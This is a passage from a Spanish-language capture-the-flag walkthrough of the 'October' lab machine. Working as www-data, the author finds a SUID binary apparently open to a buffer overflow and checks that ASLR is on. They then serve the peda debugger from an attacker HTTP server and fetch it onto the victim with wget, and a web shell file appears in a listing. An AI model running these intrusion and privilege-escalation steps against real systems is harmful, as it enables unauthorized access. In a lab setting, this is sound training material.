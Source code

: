 Vemos un archivo curioso que tiene permisos SUID `/usr/local/bin/ovrflw`, que ya por el nombre nos hace referencia a *Buffer Overflow* y al ejecutarlo vemos que nos pide ingresar una cadena de texto.

```bash
www-data@october:/$ /usr/local/bin/ovrflw
Syntax: /usr/local/bin/ovrflw <input string>
www-data@october:/$
```

Validamos el archivo `randomize_va_space` y vemos que tiene un 2; por lo que el ***ASLR (Address Space Layout Randomization)*** se encuentra activado; lo que dispone de forma aleatoria las posiciones del espacio de direcciones de las áreas de datos clave de un proceso, incluyendo la base del ejecutable y las posiciones de la pila, el *heap* y las librerías.

```bash
www-data@october:/$ cat /proc/sys/kernel/randomize_va_space 
2
www-data@october:/$
```

Para el análisis del binario, vamos a hacer uso de la herramienta [peda](https://github.com/longld/peda).

```bash
❯ git clone https://github.com/longld/peda
Clonando en 'peda'...
remote: Enumerating objects: 382, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 382 (delta 2), reused 2 (delta 0), pack-reused 373
Recibiendo objetos: 100% (382/382), 290.84 KiB | 1.21 MiB/s, listo.
Resolviendo deltas: 100% (231/231), listo.
❯ tar -cf peda.tar peda
❯ ll
drwxr-xr-x root root 142 B  Tue Sep 21 00:47:20 2021  peda
.rw-r--r-- root root  65 B  Mon Sep 20 22:14:52 2021  k4mishell.php5
.rw-r--r-- root root 660 KB Tue Sep 21 00:47:39 2021  peda.tar
```

Ahora le pasamos el archivo `peda.tar` a la máquina víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.16 - - [21/Sep/2021 00:49:51] "GET /peda.tar HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
❯ 
❯ md5sum peda.tar
0eb8ec6cc2974c84768b1ae816b6bf55  peda.tar
```

```bash
www-data@october:/dev/shm$ wget http://10.10.14.16/peda.tar
--2021-09-21 08:54:36--  http://10.10.14.16/peda.tar
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 675840 (660K) [application/x-tar]
Saving to: 'peda.tar'

100%[=======================================================================================>] 675,840      834KB/s   in 0.8s   

2021-09-21 08:54:37 (834 KB/s) - 'peda.tar' saved [675840/675840]

www-data@october:/dev/shm$ md5sum peda.tar 
0eb8ec6cc2974c84768b1ae816b6bf55  peda.tar
www-data@october:/dev/shm$
```

